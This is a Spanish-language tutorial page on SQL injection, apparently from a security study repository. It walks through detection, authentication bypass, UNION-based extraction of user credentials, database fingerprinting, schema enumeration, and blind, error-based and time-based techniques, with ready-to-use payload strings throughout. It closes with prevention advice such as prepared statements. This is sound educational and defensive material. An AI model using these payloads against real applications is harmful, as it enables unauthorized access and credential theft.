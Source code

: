 # Inyecciones SQLi (SQL Injection)


---

##  Introducción

En este documento examinaremos de forma práctica y didáctica las vulnerabilidades en bases de datos SQL —conocidas como **inyecciones SQL (SQLi)**—. Las inyecciones SQL consisten en la inserción de consultas o comandos maliciosos en puntos de entrada de una aplicación web, aprovechando validaciones insuficientes para alterar la lógica de ejecución en sistemas de gestión de bases de datos como [Mariadb](../SQL/Mariadb) o [SQLite3](../SQL/SQLite3/). Cuando estas técnicas se aplican en entornos de producción web, pueden permitir desde la exfiltración de información sensible hasta la modificación no autorizada del comportamiento de la aplicación, afectando la confidencialidad, integridad y disponibilidad de los datos. Para ampliar el contexto teórico y práctico, consulta la sección general sobre [Bases de datos](../../Bases%20de%20datos/).

Objetivos de este capítulo:

- Entender qué es una inyección SQL y cómo se explota.

- Identificar vectores típicos y entradas vulnerables en aplicaciones web.


---

## ¿Qué es la inyección SQL?

> La inyección [SQLi](SQLi.md) es una vulnerabilidad que permite a un atacante manipular las consultas SQL de una aplicación para acceder, modificar o eliminar datos en una base de datos. Se produce cuando la entrada del usuario no se valida ni se sanitiza correctamente, permitiendo la ejecución de código SQL malicioso.


---

## Cómo detectar vulnerabilidades de inyección SQL

Algunos métodos para identificar si una aplicación es vulnerable a SQLi incluyen:

- **Pruebas manuales:** Insertar caracteres especiales (`'`, `"`, `;`, `--`, `#`, etc.) en los campos de entrada y observar errores.
- **Errores de la base de datos:** Mensajes como `syntax error` pueden indicar una vulnerabilidad.
- **Automatización:** Uso de herramientas como [SQLmap](sqlmap.md) para detectar y explotar SQLi.


---

## Recuperar datos ocultos

A veces, los datos de la base de datos están ocultos, pero la inyección SQL puede revelar información oculta al modificar consultas, por ejemplo:

```sql
SELECT * FROM productos WHERE id = '1' OR '1'='1';
```

```url
' OR 1=1-- -
```

```url
' OR '1'='1
```


---

## Subvertir la lógica de la aplicación

Los atacantes pueden modificar consultas para eludir la autenticación:

```sql
SELECT * FROM usuarios WHERE usuario = 'admin' AND clave = '' OR '1'='1';
```

Esto permite iniciar sesión sin conocer la contraseña real.

```lua
Username = admin' OR 1=1-- -
Password = ' OR 1=1-- -
```


---

## Inyección SQL UNION attacks

Permite unir múltiples consultas SQL para extraer datos de otras tablas.

### Determinar el número de columnas requeridas

```sql
ORDER BY nº; -- Probamos incrementando 'n' hasta encontrar un error
```

```url
' ORDER BY nº-- -
```

### Encontrar columnas con un tipo de datos útil

```sql
UNION SELECT NULL, NULL, 'texto';
```

```url
' UNION SELECT NULL,NULL,'test'-- -
```


### Uso de un ataque UNION de inyección SQL para recuperar datos interesantes

```sql
UNION SELECT nombre, clave FROM usuarios;
```

```url
' UNION SELECT nombre,clave FROM usuarios-- -
```


### Recuperar múltiples valores dentro de una sola columna

```sql
UNION SELECT nombre || ' - ' || clave FROM usuarios;
```

```url
' UNION SELECT nombre || ' - ' || clave FROM usuarios-- -
```

---

## Examinar la base de datos

Los atacantes pueden obtener información sobre la estructura de la base de datos.

### Identificar la base de datos en uso

```url
' UNION SELECT @@version-- -  # Para MySQL
' UNION SELECT version()-- -  # Para PostgreSQL
' UNION SELECT banner FROM v$version-- -  # Para Oracle
```

### Listar tablas y columnas

```url
' UNION SELECT table_name FROM information_schema.tables-- -
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='usuarios'-- -
```


---

## Inyección SQL ciega

Cuando la aplicación no devuelve errores directos, se pueden usar técnicas como:

### Explotar la inyección SQL ciega desencadenando respuestas condicionales

```sql
AND 1=1 -- [Devuelve verdadero]
AND 1=2 -- [Devuelve falso]
```

### Inyección SQL basada en errores

Forzar la aplicación a mostrar errores:

```sql
AND 1=CAST((SELECT clave FROM usuarios LIMIT 1) AS INT);
```

### Explotar la inyección SQL ciega desencadenando retrasos de tiempo

```sql
IF(1=1, SLEEP(5), 0);
```

### Explotar la inyección SQL ciega utilizando técnicas fuera de banda (OAST)

Enviar consultas a servidores externos para filtrar datos.

---

## Inyección SQL en diferentes contextos

- **En URLs:** `https://victima.com/perfil?id=1' OR '1'='1`.
- **En formularios:** Campos de login vulnerables.
- **En encabezados HTTP:** Manipulación de cookies o User-Agent.


---

## Inyección SQL de segundo orden

Los datos maliciosos se almacenan en la base de datos y ejecutan la inyección en otro contexto.

Ejemplo: Un usuario malicioso registra su nombre como:

```sql
admin' --
```
Cuando un administrador lo consulta en otra página, la inyección se ejecuta.


---

##  Cómo prevenir la inyección SQL

**Usar consultas preparadas** con `?` o `bind_param()`:

```sql
SELECT * FROM usuarios WHERE usuario = ? AND clave = ?;
```

**Validar y sanitizar entradas del usuario.**
**Principio de menor privilegio:** No usar cuentas con permisos excesivos.
**Firewalls de aplicaciones web (WAF).**


---

**Conclusión:** La inyección SQL sigue siendo una de las vulnerabilidades más peligrosas, pero con buenas prácticas y medidas de seguridad adecuadas, se puede mitigar el riesgo de ataque.
